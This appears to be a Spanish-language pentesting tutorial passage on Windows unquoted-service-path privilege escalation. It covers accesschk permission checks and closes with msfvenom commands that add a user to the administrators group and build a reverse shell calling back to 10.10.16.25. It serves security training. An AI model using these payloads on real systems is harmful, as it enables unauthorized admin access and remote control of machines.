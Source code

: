Esto se puede hacer con **accesschk**:

**IDENTIFICAR SI PODEMOS INICIAR O DETENER EL SERVICIO**

```bash
accesschk.exe /accepteula -ucqv <usuario> <servicio>
```

asi podemos comprobar que permisos tiene un usuario en particular sobre un servicio.

- **/accepteula**: la primera vez que lo hacemos suele salir una ventana gráfica de aceptar términos y demás. Para no tener problemas desde nuestra shell, añadiendo directamente este argumento aceptamos los términos desde la propia consola.
- **-u** :  Indicamos que no enseñe los errores si los hubiese
- **-c**: Indicamos que el `<nombre de objeto>` representa un servicio de Windows.
- **-q**: Quitamos el banner de la herramienta del output
- **-v**: Típico verbose de cualquier herramienta

los permisos necesarios para iniciar o detener un servicio son: **SERVICE_START** y **SERVICE_STOP**.

**IDENTIFICAR PERMISOS DE ESCRITURA EN DIRECTORIOS**

Necesitamos permisos de escritura en alguno de los directorio vulnerables, por ejemplo de estos:

```bash
C:\Program.exe -> permisos en C:\
C:\Program Files\Some.exe -> permisos en C:\Program Files
C:\Program Files\Some Folder\Service.exe -> permisos en C:\Program Files\Some Folder
```

para ello usaremos la misma herramienta:

```bash
accesschk.exe /accepteula -uwdq <path>

#RW BUILTIN/users #esto indica que el los usuarios normales pueden editar
```

- **-u** :  Indicamos que no enseñe los errores si los hubiese
- **-w**: enseña solo los permisos que tengan escritura
- **-q**: Quitamos el banner de la herramienta del output
- **-d**: Indicamos que el objeto es una carpeta. Y que nos interesa los permisos de este objeto y no los de su contenido.

¿Cómo nos aprovechamos de esto? Facil, solo cree una reverse shell con msfvenom en formato .exe, renombrelo como Program.exe o Some.exe. (Se debe tener permisos de escritura en la ruta C:\ o C:\Program Files\) y reinicie el servicio.

De esta manera engañaremos al servico para que encuentre nuestro peyload.

```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.25 LPORT=4545 -f exe-service -o service.exe
```
